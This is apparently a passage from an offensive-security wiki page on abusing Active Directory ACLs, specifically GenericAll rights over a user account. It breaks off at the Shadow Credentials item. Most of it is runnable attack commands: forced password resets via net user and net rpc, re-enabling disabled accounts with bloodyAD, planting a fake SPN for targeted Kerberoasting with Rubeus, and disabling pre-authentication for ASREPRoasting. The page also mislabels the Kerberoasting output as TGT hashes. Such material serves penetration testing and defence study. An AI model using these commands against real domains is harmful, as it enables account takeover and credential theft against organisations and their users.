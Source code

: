# Abusing Active Directory ACLs/ACEs

**This page is mostly a summary of the techniques from** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) **and** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges)**. For more details, check the original articles.**

## BadSuccessor

[[BadSuccessor.md]]

## **GenericAll Rights on User**

This privilege grants an attacker full control over a target user account. Once `GenericAll` rights are confirmed using the `Get-ObjectAcl` command, an attacker can:

- **Change the Target's Password**: Using `net user <username> <password> /domain`, the attacker can reset the user's password.
- From Linux, you can do the same over SAMR with Samba `net rpc`:

```bash
# Reset target user's password over SAMR from Linux
net rpc password <samAccountName> '<NewPass>' -U <domain>/<user>%'<pass>' -S <dc_fqdn>
```

- **If the account is disabled, clear the UAC flag**: `GenericAll` allows editing `userAccountControl`. From Linux, BloodyAD can remove the `ACCOUNTDISABLE` flag:

```bash
bloodyAD --host <dc_fqdn> -d <domain> -u <user> -p '<pass>' remove uac <samAccountName> -f ACCOUNTDISABLE
```

- **Targeted Kerberoasting**: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.

```bash
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```

- **Targeted ASREPRoasting**: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting.

```bash
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

- **Shadow Credentials / Key Credential Link**: With `GenericAll` on a user you can add a certificate-based credential and authenticate as them without changing their password. See:
